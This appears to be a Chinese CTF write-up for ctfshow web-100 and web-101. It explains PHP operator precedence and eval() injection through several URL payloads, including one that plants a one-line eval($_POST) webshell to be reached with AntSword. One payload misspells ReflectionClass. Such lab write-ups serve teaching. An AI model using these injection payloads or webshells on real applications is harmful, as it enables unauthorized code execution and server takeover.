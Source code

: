 ### web-100

这题考察运算符的优先级

```
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

由于=的优先级大于and，因此只要满足v1是个数字，v0就返回1

```
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
```

通过代码审计，v2不能存在；，而v3要存在一个；且在开头

我们可以用highlight_file()返回ctfshow.php中的内容

?v1=1&v2=highlight_file("ctfshow.php")&v3=;

![image-20240410204709521](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404102047602.png)

我们得到flag为a2eae7f30x2d8dc90x2d45560x2dad910x2d629eccb9bba4，接下来把0x2d换成-就能得到flag了



也可以传入?v1=1&v2=eval($_POST[1])?%3E&v3=; 传入一句话木马，然后使用蚁剑进行连接

------

### web-101

这题考察反射和运算符的优先级

```
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

根据上题的经验，我们可以知道v1=1,

由于v2,v3过滤了数字和特殊字符

![image-20240411193416613](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404111934695.png)

因此，这题我们考虑用ReflectionClass反射，

我们传入?v1=1&v2=echo new RefectionClass&v3=;

我们就能拿到flag值了

![image-20240411193542061](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404111935095.png)

我们把0x2d换成-，得到flag{6feae7fe-d7cd-4fea-9d47-30b0e0ee2be}，但当我们提交flag时，却提示我们flag错误，经过仔细对比，我们发现flag少了一位
